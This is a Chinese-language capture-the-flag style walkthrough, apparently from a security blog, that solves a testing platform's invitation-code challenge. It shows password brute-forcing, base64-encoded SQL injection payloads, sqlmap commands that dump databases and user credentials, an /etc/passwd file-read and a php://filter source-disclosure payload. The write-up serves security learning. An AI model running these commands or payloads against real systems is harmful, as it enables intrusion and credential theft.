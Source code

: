 > 原文链接: https://www.anquanke.com//post/id/225868 


# 某众测平台入驻邀请码获取


                                阅读量   
                                **186141**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    



[![](https://p3.ssl.qhimg.com/t0134556fff589ee59f.jpg)](https://p3.ssl.qhimg.com/t0134556fff589ee59f.jpg)



## 0x00 背景

今天刚到公司，看到刚哥在群里发的消息。

[![](https://p4.ssl.qhimg.com/t01743ac22a2481f8dd.jpg)](https://p4.ssl.qhimg.com/t01743ac22a2481f8dd.jpg)

打开一看是个众测平台，注册的时候提示需要邀请码，而邀请码的获得方式有两种，一种是老用户邀请，另一种则需要通过平台提供的一个小游戏获取flag，然而我们也不认识老用户，没办法那只能去找flag了。游戏地址([http://119.3.191.245:8877/Login.php](http://119.3.191.245:8877/Login.php))



## 0x01 密码爆破

打开网址看到只有一个用户名密码，并没有存在验证码，那肯定是先使用burp软件密码爆破一波。

[![](https://p5.ssl.qhimg.com/t01ab4cf590b80c23bd.png)](https://p5.ssl.qhimg.com/t01ab4cf590b80c23bd.png)

密码非常简单，根据返回的状态码找到正确的账号密码`test/test123`。



## 0x02 sql注入（手工整型注入）

使用破解的账号密码登录系统，只有两个链接地址，分别打开看看，其中一个链接地址中包含`aid`参数，对其进行了一波简单的sql注入尝试后，并没有发现什么可用的价值，暂时先放着。<br>
接下来尝试把`aid=1`换成`-1、0、1、2、3、4`看看页面变化，当`aid=3`时页面出现了更多链接，如下图：

[![](https://p0.ssl.qhimg.com/t018556d529fb632610.png)](https://p0.ssl.qhimg.com/t018556d529fb632610.png)

然后将这些链接挨个打开，当打开第4个链接时（[http://119.3.191.245:8877/user/Article.php?aid=3&amp;id=NQ==)，](http://119.3.191.245:8877/user/Article.php?aid=3&amp;id=NQ==)%EF%BC%8C) 发现与其它链接有点不一样，多了一个参数，将NQ==尝试用bases64解密后是5，然后对该参数进行sql注入尝试。将 `5 and 1=1`进行base64加密后替换至url中观察页面返回结果，如下图：

[![](https://p2.ssl.qhimg.com/t012cf7dbaf35e143de.png)](https://p2.ssl.qhimg.com/t012cf7dbaf35e143de.png)

然后将`5 and 1=2`进行base64加密后替换至url中观察页面返回结果，结果发现端倪，如下图：

[![](https://p4.ssl.qhimg.com/t016727eb688f51fe3b.png)](https://p4.ssl.qhimg.com/t016727eb688f51fe3b.png)

到这里可以基本判断此处存在sql注入漏洞，然后利用`order by`（或者`union select 1,2,3,4,5,6,N`）确定当前数据库的字段数目，为接下来爆库表字段做准备。<br>
将`order by n`（n是猜测的字段数目）加密后放到地址栏最后，经过多次尝试最后的字段数为order by 3。

[![](https://p0.ssl.qhimg.com/t010ace43c334aab16c.png)](https://p0.ssl.qhimg.com/t010ace43c334aab16c.png)

[![](https://p0.ssl.qhimg.com/t01b1e2511008c72a36.png)](https://p0.ssl.qhimg.com/t01b1e2511008c72a36.png)

已知字段数为3，那么就可以利用union联合查询判断网站显示的内容在数据库的第几列。当使用`5 union select 1,2,3 --+`加密添加到`id=`之后，结果网页显示“感知到注入迹象，启动第四阻断机制”的提示，猜测可能是因为网站禁止使用union函数。

[![](https://p0.ssl.qhimg.com/t0138f69299bd1bb1f1.png)](https://p0.ssl.qhimg.com/t0138f69299bd1bb1f1.png)



## 0x03 sql注入（盲注）

既然union不让用，那就试试盲注，因为手动盲注太费时间，我选择使用sqlmap工具，构造命令

`python sqlmap.py -u "http://119.3.191.245:8877/user/Article.php?aid=3&amp;id=*" --cookie=" PHPSESSID=oteibuuop3nr3oj8d7e899ulg1" --batch --random-agent --tamper base64encode.py --level 3`

(*是指定跑注入的位置，`--cookie=`“使用burp抓包得到自己的cookie” ， `--batch`默认选择确定，`--random-agent`选项将sqlmap的标准值更改为任意值，利用工具`base64encode.py`解码 ，`--level 3`同时显示注入的`payload`。)

[![](https://p3.ssl.qhimg.com/t01cd505ac65478dd8f.png)](https://p3.ssl.qhimg.com/t01cd505ac65478dd8f.png)

注入成功，接下来跑网站的数据库

`python sqlmap -u "http://119.3.191.245:8877/user/Article.php?aid=3&amp;id=*" --cookie="PHPSESSID=oteibuuop3nr3oj8d7e899ulg1" --batch --random-agent --tamper base64encode.py --dbs`

[![](https://p5.ssl.qhimg.com/t01584f281257c0e218.png)](https://p5.ssl.qhimg.com/t01584f281257c0e218.png)

最后跑出来五个数据库，除了level2其余4个均为mysql的自带库，然后选择level2数据库跑数据表，构造命令如下：

`python sqlmap.py -u "http://119.3.191.245:8877/user/Article.php?aid=3&amp;id=*" --cookie="PHPSESSID=oteibuuop3nr3oj8d7e899ulg1" --batch --random-agent --tamper base64encode.py -D "level2" --tables`

level2库中存在user和article两个表，那基本可以判断user表是保存登录账号密码的表，article是刚才那个页面像小说页面的文章表，如下图：

[![](https://p4.ssl.qhimg.com/t01ef23b9c69d9ea21c.png)](https://p4.ssl.qhimg.com/t01ef23b9c69d9ea21c.png)

查看user表中内容，构造命令如下：<br>`python sqlmap.py -u "http://119.3.191.245:8877/user/Article.php?aid=3&amp;id=*" --cookie="PHPSESSID=oteibuuop3nr3oj8d7e899ulg1" --batch --random-agent --tamper base64encode.py -D "level2" -T "user" --dump`

[![](https://p0.ssl.qhimg.com/t01ddeac2cde9055143.png)](https://p0.ssl.qhimg.com/t01ddeac2cde9055143.png)

成功得到所有账户名密码，看到其中有`admin`账户，登录后看看是否有flag线索。



## 0x04 sql文件包含

登录admin账号后页面几乎与test页面无两样，不过在同样的文本后多了一个小表情，应该是某种线索，点击右键查看源代码，发现图片地址，如下图：

[![](https://p1.ssl.qhimg.com/t01046d2a0115c8219d.png)](https://p1.ssl.qhimg.com/t01046d2a0115c8219d.png)

[![](https://p2.ssl.qhimg.com/t01c0d428be0de69ca6.png)](https://p2.ssl.qhimg.com/t01c0d428be0de69ca6.png)

看到图片url中的filename参数，第一感觉是尝试文件包含，首先读取`filename=/etc/passwd`成功读取，可以很确定此处存在任意文件读取漏洞。

[![](https://p2.ssl.qhimg.com/t01b61013a533c6df14.png)](https://p2.ssl.qhimg.com/t01b61013a533c6df14.png)

任意文件读取漏洞好像对于拿flag没有什么用，不过我们可以尝试读取当前这些页面的源文件，看看有没有什么线索。poc构造如下：

`filename=php://filter/read=convert.base64-encode/resource=Read.php`（将`Read.php`文件的内容以base64形式输出），将得到的内容解密，可以看到`Read.php`的源码如下图：

[![](https://p3.ssl.qhimg.com/t01c9f8d700e2b3ae84.png)](https://p3.ssl.qhimg.com/t01c9f8d700e2b3ae84.png)

看到文件包含函数`requlre_once`引用了`Base.php`文件，继续尝试读取`Base.php`文件，如下图：

[![](https://p3.ssl.qhimg.com/t01fc5ab22f5f74c89f.png)](https://p3.ssl.qhimg.com/t01fc5ab22f5f74c89f.png)

将解密的代码拉到最后看到“关于邀请码”的提示，继续读取`meifahufujiulaimingdu.php`源码，源码文件内容如下：

```
&lt;?php
 #关于邀请码，嗯，一目了然。
require_once("Base.php");
error_reporting(0);
//$user = isUser();

 $url = "http://172.17.0.1:3000/code";
 $email = "";

function send_post( $url , $post_data ) `{`

    $postdata = http_build_query( $post_data );
    $options = array (
        'http' =&gt; array (
            'method' =&gt; 'POST' ,
            'header' =&gt; 'Content-type:application/x-www-form-urlencoded' ,
            'content' =&gt; $postdata ,
            'timeout' =&gt; 15 * 60
        )
    );
    $context = stream_context_create( $options );
    $result = file_get_contents ( $url , false, $context );

    return $result ;
`}`

$post_data = array (
    'e' =&gt; $_POST['email']
);
echo send_post( $url , $post_data );


#ps:建团？什么建团？  啊，哦，那个啊，我记得小姐把它扔到static下面去了，有心的话，去那儿找找吧。
```

根据得到的信息了解到需要用post方式提交email=参数获取邀请码，构造接口如下图：

[![](https://p1.ssl.qhimg.com/t0190a9bfadb47c8387.png)](https://p1.ssl.qhimg.com/t0190a9bfadb47c8387.png)

成功返回flag，提交flag注册成功。

[![](https://p0.ssl.qhimg.com/t01b6bd3160987d5d88.png)](https://p0.ssl.qhimg.com/t01b6bd3160987d5d88.png)

